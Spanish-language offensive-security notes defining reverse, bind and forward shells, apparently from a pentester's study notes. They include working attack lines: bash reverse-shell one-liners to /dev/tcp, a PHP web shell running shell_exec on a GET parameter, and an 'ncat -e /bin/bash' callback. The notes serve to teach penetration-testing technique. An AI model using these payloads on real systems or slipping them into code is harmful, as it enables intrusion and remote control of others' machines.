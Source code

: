 #Explotacion #Shell
## Reverse Shell
#### Definición

>Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.
___________________________________

##### .SH

````shell
#!/bin/bash

bash -i >& /dev/tcp/<IP>/443 0>&1 
````

##### CMD
```shell
bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0<%261"
```


## Bind Shell

#### Definición

>Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.
____________________



## Forward Shell

#### Definición

>Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.
>______________________

Para la ejecución de este tipo de shell podemos cargar un archivo con la extensión `.php`, que nos permita la ejecución remota de comandos en el servidor.

```php
<?
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Una vez lo ejecutamos podemos ejecutar comandos desde la web usando `?cmd=` y enviarnos una shell a nuestra maquina en la que estamos en escucha usando el comando `ncat -e /bin/bash <IP_local> <Puerto>`

No nos entablara conexión por que hay reglas de firewall de por medio, usaremos la herramienta https://github.com/s4vitar/ttyoverhttp/blob/master/tty_over_http.py donde tendremos que hacer un único cambio en la ruta del archivo.

Deberemos de cambiar el formato de la shell quitando las etiquetas preformateadas  del código `.php`

```php
<?
        echo shell_exec($_GET['cmd']);
?>
```
